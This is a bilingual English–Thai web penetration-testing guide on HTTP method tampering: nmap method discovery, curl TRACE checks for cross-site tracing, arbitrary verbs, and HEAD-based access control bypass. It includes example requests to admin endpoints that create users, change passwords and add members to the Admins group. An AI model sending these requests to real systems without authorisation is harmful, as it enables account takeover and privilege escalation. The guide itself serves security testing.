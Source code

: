 **How to test**

1.  Discover supported http method

Use nmap with http-methods NSE script as following picture. Below picture is shown "Supported Methods"

![662291DE-7BD9-4E0B-BC96-812EF15D3D0A](https://user-images.githubusercontent.com/60565002/73835870-c3e6a180-4840-11ea-86bd-52865ca63422.png)


2. Test XST Potential

use "curl" to test

Example not vulnerable server:

> # curl -i -A 'Mozilla/5.0' -X 'TRACE /' -k https://www.not-vulnerable.com
'HTTP/1.1 403 Forbidden'
Date: Sat, 04 Jun 2011 06:46:21 GMT
Server: Apache
Content-Length: 202
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
'<h1>Forbidden</h1>'
<p>You don't have permission to access /
on this server.</p>
</body></html>

Example of a vulnerable server:

> # curl -i -A 'Mozilla/5.0' -X 'TRACE /' -k https://www.vulnerable.com
HTTP/1.1 200 OK
Date: Sat, 04 Jun 2011 06:34:51 GMT
Server: Apache
Connection: close
Content-Type: message/http

TRACE / / HTTP/1.1
User-Agent: Mozilla/5.0
Host: www.vulnerable.com
Accept: */*  


******
-i   --> nclude the HTTP response headers in the output. The HTTP response headers can include things like server name, cookies, date of the document, HTTP version and more...   

-A  -->  (HTTP) Specify the User-Agent string to send to the HTTP server. To encode blanks in the string, surround the string with single quote marks. This header can also be set with the -H, --header or the --proxy-header options.

-X -->  specifies a customer request method to use when communicating with the HTTP server.

-k  --> test TLS or SSL for https

***********

3. Test arbitrary HTTP method

ลองใช้ชื่อ method เช่น JEFF ตามภาพ ซึ่ง web server ควรจะแสดง error page ด้วย 405 หรือ 501 แต่ถ้าเรียกแล้วตอบด้วย 200 ก็ถือว่ามีช่องโหว่

![E027F3A5-AD24-4869-922C-707B624F66FD](https://user-images.githubusercontent.com/60565002/73836029-04461f80-4841-11ea-9e5d-29f9a1c06a1e.png)

แล้วเราสามารถจะลองใช้ การ issue command ตัวอย่างเช่น

•  FOOBAR /admin/createUser.php?member=myAdmin
•  JEFF /admin/changePw.php?member=myAdmin&passwd=foo123&confirm=foo123
•  CATS /admin/groupEdit.php?group=Admins&member=myAdmin&action=add
อาจจะสามารถ create user ได้

4. Testing HEAD access control bypass

ลองใช้ method HEAD เรียก หน้าของ admin ซึ่งโดยปกติ ต้องถูก redirect 302 ไปหน้า login  แต่ถ้าลองแล้วได้ 200 ดังภาพ แสดงว่ามีช่องโหว่ที่อาจจะ bypass authen ได้

![image 3](https://user-images.githubusercontent.com/60565002/73836039-07d9a680-4841-11ea-8c3a-c436efc8c025.png)

จากภาพจะเห็นว่า web server ตอบกลับมาด้วย header ของ admin โดยไม่มี body ถ้าเราเจอแบบนี้ อาจจะมีช่องโหว่ให้เราลอง

•  HEAD /admin/createUser.php?member=myAdmin
•  HEAD /admin/changePw.php?member=myAdmin&passwd=foo123&confirm=foo123
•  HEAD /admin/groupEdit.php?group=Admins&member=myAdmin&action=add


